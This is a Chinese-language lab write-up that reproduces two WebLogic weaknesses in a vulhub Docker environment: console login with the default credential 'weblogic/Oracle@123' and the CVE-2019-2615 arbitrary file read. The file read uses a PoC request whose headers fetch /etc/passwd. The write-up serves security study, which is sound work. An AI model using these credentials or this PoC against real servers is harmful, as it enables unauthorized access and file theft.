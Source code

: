 # 漏洞复现——weblogic弱口令与任意文件读取

# weblogic与弱口令、任意文件读取概述

1. weblogic是Oracle公司出品的一个应用服务器（application server），是一个基于Java EE架构的中间件是用于开发、集成、部署和管理大型分布式Web应用、网络应用和 数据库应用的Java应用服务器。Weblogic将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中，是商业市场上主要的Java（Java EE）应用服务器软件之一，也是世界上第一个成功商业化的Java EE应用服务器，具有可扩展性、快速开发、灵活、可靠等优势。

2. 在功能性上，Weblogic是Java EE的全能应用服务器，包括EJB 、JSP、servlet、JMS等，是商业软件里排名第一的容器（JSP、servlet、EJB等），并提供其他工具（例如Java编辑器），因此也是一个综合的开发及运行环境。在扩展性上，Weblogic Server凭借其出色的群集技术，拥有处理关键Web应用系统问题所需的性能、可扩展性和高可用性。Weblogic Server既实现了网页群集，也实现了EJB组件群集，而且不需要任何专门的硬件或操作系统支持。网页群集可以实现透明的复制、负载平衡以及表示内容容错。无论是网页群集，还是组件群集，对于电子商务解决方案所要求的可扩展性和可用性都是至关重要的。目前Weblogic在全球的使用量也占居前列。

3. weblogic存在管理后台，通过验证账号密码的方式登录，由于管理员的疏忽，使用默认口令或弱口令，导致weblogic管理后台存在被爆破的风险。

4. weblogic任意文件读取——CVE-2019-2615。该漏洞是任意文件读取漏洞，这个漏洞接口是文件下载相关功能使用的接口，也是weblogic server中内部使用的正常功能，所以该漏洞需要weblogic的用户名密码，所以也是个鸡肋的漏洞。

# 漏洞复现

1. weblogic弱口令

   - 进入靶机的~/vulhub/weblogic/weak_password目录，docker启动环境

     ``` shell
     sudo docker-compose up -d
     ```

   - 访问http://靶机IP:7001/console，进入weblogic登录界面

     ![1.png](img/weblogicRklRead/Image1.png)

   - 使用弱口令爆破成功登录，口令为`weblogic/Oracle@123`weblogic常用弱口令： http://cirt.net/passwords?criteria=weblogic

     ![2.png](img/weblogicRklRead/Image2.png)

2. weblogic任意文件读取——CVE-2019-2615

   - 利用弱口令登录成功后，访问http://192.168.50.198:7001/bea_wls_management_internal2/wl_management，使用BurpSuite抓包

     ![3.png](img/weblogicRklRead/Image3.png)

   - 修改数据包，添加POC到数据包中尝试读取/etc/passwd文件

     ```shell
     username:weblogic
     password:Oracle@123
     wl_request_type:wl_jsp_refresh_request
     adminPath:/etc/passwd
     ```

   - 释放数据包，成功读取/etc/passwd文件

     ![4.png](img/weblogicRklRead/Image4.png)